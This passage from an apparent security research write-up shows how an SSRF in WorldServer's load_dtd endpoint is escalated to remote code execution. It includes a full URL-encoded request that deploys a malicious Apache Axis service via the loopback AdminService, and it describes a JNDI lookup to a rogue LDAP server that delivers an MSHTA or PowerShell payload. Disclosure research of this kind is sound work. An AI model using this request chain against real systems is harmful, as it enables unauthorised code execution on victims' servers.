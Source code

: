```
    response.setContentType("text/dtd;charset=UTF-8");
    try {
      SAXParser sAXParser = new SAXParser();
      XHiveResolver.installResolver((XMLReader)sAXParser);
      sAXParser.setProperty("http://xml.org/sax/properties/declaration-handler", new DTDDumper(pc
            .getResponse().getWriter()));
      sAXParser.parse(new InputSource(new StringReader(doc)));
    } catch (Exception e) {
      Log log = Configuration.getLog();
      log.log(2, 3, "DTD generation error", e);
    }
    response.getWriter().close();
  }
}
```

We can turn this into RCE by deploying a new Apache Axis service and making use of the LogHandler class to deploy a webshell, or we can use a more exotic technique using a JNDI lookup with the org.apache.axis.client.ServiceFactory class. The original write-up for the JNDI technique was found at <https://www.cnblogs.com/nice0e3/p/15605781.html>.

To confirm the SSRF, we use Burp to send the following request:

![31](https://www.triskelelabs.com/hs-fs/hubfs/31.png?width=927&height=362&name=31.png)

Resulting in the HTTP request to our Burp Collaborator instance:

![32](https://www.triskelelabs.com/hs-fs/hubfs/32.png?width=692&height=269&name=32.png)

To deploy our new Apache Axis service, we need to send a GET request to /ws- legacy/services/AdminService on the loopback address of the host running WorldServer, with the proper URL encoding:

`http://10.0.0.142:8080/ws-legacy/load_dtd?system_id=http%3a//127.0.0.1%3a8080/ws-legacy/services/AdminService%3fmethod%3d!--%253E%253Cdeployment%2520xmlns%253D%2522http%253A%252F%252Fxml.apache.org%252Faxis%252Fwsdd%252F%2522%2520xmlns%253Ajava%253D%2522http%253A%252F%252Fxml.apache.org%252Faxis%252Fwsdd%252Fproviders%252Fjava%2522%253E%253Cservice%2520name%253D%2522ServiceFactoryService%2522%2520provider%253D%2522java%253ARPC%2522%253E%253Cparameter%2520name%253D%2522className%2522%2520value%253D%2522org.apache.axis.client.ServiceFactory%2522%252F%253E%253Cparameter%2520name%253D%2522allowedMethods%2522%2520value%253D%2522*%2522%252F%253E%253C%252Fservice%253E%253C%252Fdeployment&token=900648455`

This results in our new service being created:

![34](https://www.triskelelabs.com/hs-fs/hubfs/34.png?width=494&height=322&name=34.png)

All that’s left is to call the service with the jndiName pointing to our rogue LDAP server. For this, we chose to use the excellent [https://github.com/pimps/JNDI- Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) and served up another MSHTA payload, though any other Windows command would work, including PowerShell one-liners or stagers.

Apart from the lack of having to write a webshell to the disk, which is an added benefit, this method of exploiting an Apache Axis SSRF also avoids the need to ensure your webshell is reachable or in the correct parent directory.
